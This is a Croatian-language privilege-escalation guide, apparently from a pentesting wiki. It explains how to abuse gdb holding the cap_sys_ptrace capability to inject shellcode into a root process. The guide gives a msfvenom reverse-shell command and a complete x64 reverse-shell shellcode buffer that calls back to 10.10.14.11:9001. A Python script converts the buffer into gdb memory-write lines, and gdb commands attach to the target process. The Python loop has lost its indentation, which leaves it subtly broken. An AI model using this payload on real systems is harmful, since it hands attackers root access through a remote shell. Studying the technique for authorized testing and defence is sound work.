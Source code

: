 ```
/usr/bin/gdb = cap_sys_ptrace+ep
```

Kreirajte shellcode pomoću msfvenom alata za ubrizgavanje u memoriju putem gdb-a

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f c -b "\x00" -o shellcode.c
```

Ovaj naredbeni redak koristi msfvenom alat za generiranje shellcode-a za Linux x86 arhitekturu. Shellcode će uspostaviti obrnutu TCP vezu s vašim IP adresom i odredišnim portom. Zamijenite `<your_ip>` s vašom IP adresom i `<your_port>` s odredišnim portom.

Opcija `-f c` generira shellcode u formatu C koda, dok opcija `-b "\x00"` izbjegava generiranje bajtova s vrijednošću 0, što može uzrokovati probleme prilikom ubrizgavanja u memoriju.

Rezultirajući shellcode bit će spremljen u datoteku `shellcode.c`.

```python
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (8 - len(buf) % 8 ) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
chunk = payload[i:i+8][::-1]
chunks = "0x"
for byte in chunk:
chunks += f"{byte:02x}"

print(f"set {{long}}($rip+{i}) = {chunks}")
```

Debugirajte root proces sa gdb-om i kopirajte prethodno generisane gdb linije:

```bash
sudo gdb -p <PID>
```

```bash
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
(gdb) catch exec
(gdb) run
```

```bash
(gdb) info inferiors
(gdb) inferior <N>
(gdb) info threads
(gdb) thread <N>
```
